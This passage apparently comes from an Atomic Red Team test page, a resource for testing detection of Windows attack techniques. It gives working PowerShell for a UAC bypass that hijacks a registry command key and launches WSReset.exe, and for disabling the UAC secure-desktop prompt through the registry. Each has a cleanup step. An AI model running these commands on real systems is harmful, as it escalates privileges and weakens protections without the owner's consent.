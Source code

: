 
**auto_generated_guid:** 3b96673f-9c92-40f1-8a3e-ca060846f8d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| commandpath | Registry path | string | HKCU:&#92;Software&#92;Classes&#92;AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2&#92;Shell&#92;open&#92;command|
| commandtorun | Command to run | string | C:&#92;Windows&#92;System32&#92;cmd.exe /c start cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item #{commandpath} -Force | Out-Null
New-ItemProperty -Path #{commandpath} -Name "DelegateExecute" -Value "" -Force | Out-Null
Set-ItemProperty -Path #{commandpath} -Name "(default)" -Value "#{commandtorun}" -Force -ErrorAction SilentlyContinue | Out-Null
$Process = Start-Process -FilePath "C:\Windows\System32\WSReset.exe" -WindowStyle Hidden
```

#### Cleanup Commands:
```powershell
Remove-Item #{commandpath} -Recurse -Force
```





<br/>
<br/>

## Atomic Test #24 - Disable UAC - Switch to the secure desktop when prompting for elevation via registry key
User Account Control (UAC) is a security mechanism for limiting the elevation of privileges, including administrative accounts, unless authorized. 
This setting ensures that the elevation prompt is only used in secure desktop mode.
Disable User Account Conrol (UAC) for secure desktop by setting the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\PromptOnSecureDesktop to 0.

**Supported Platforms:** Windows


**auto_generated_guid:** 85f3a526-4cfa-4fe7-98c1-dea99be025c7






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name PromptOnSecureDesktop -Value 0 -Type Dword -Force
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name PromptOnSecureDesktop -Value 1 -Type Dword -Force
```





<br/>
